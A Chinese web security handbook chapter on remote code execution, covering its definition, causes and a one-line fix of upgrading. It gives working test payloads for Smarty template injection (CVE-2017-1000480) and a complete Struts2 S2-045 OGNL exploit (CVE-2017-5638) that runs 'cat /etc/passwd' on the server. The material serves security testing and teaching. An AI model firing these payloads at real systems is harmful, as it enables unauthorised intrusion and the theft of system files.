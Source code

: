 ```yaml
---
categories: Web安全测试学习手册
date: "2018-03-22T00:00:00Z"
description: 《Web安全测试学习手册》- 远程代码执行
title: 远程代码执行
url: /archivers/2018-03-22/1
---
```


《Web安全测试学习手册》- 远程代码执行
<!--more-->
* 目录
{:toc}

## 0x00 远程代码执行 - 介绍

### 1）什么是远程代码执行
 
远程命令执行 英文名称：**RCE (remote code execution)** ，简称**RCE**漏洞，是指用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变 $PATH 或程序执行环境的其他方面来执行一个恶意构造的代码。

### 2）远程代码执行的特点

远程代码执行是指攻击者可能会通过远调用的方式来攻击或控制计算机设备，无论该设备在哪里。

## 0x01 远程代码执行 - 风险等级

**高**

## 0x02 远程代码执行 - 原理

由于开发人员编写源码，没有针对代码中可执行的特殊函数入口做过滤，导致客户端可以提交恶意构造语句提交，并交由服务器端执行。命令注入攻击中WEB服务器没有过滤类似system(),eval()，exec()等函数是该漏洞攻击成功的最主要原因。

## 0x03 远程代码执行 - 常见场景

* 使用了危险函数的Web应用
* 低版本的Java语言Struts框架

## 0x04 测试方案

### PHP中常见场景 - 模板引擎代码执行

Smarty简介

> Smarty是一个PHP的模板引擎。更明确来说，它可以帮助开发者更好地 分离程序逻辑和页面显示。最好的例子，是当程序员和模板设计师是不同的两个角色的情况，而且 大部分时候都不是同一个人的情况。
> 
> CVE-ID : CVE-2017-1000480

产生原因：由于未对用户的输入点进行过滤，导致经过eval函数，造成代码执行

测试Payload：

```
*/phpinfo();/*
```



![0x00](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-04-16/0x00.png)

### Java Struts2 （S2-045）

Struts 简介

> Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。Struts 2是Struts的下一代产品，是在 struts 1和WebWork的技术基础上进行了合并的全新的Struts 2框架。
> 
> CVE-ID : CVE-2017-5638

产生原因：由于未对用户输入点进行过滤，被带入ErrorMessage，当做OGLN表达式解析，造成代码执行

测试Payload：

```
%{(#nikenb='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cat /etc/passwd').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

![0x01](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-04-16/0x01.png)

## 0x05 修复方案

升级插件、框架新版本
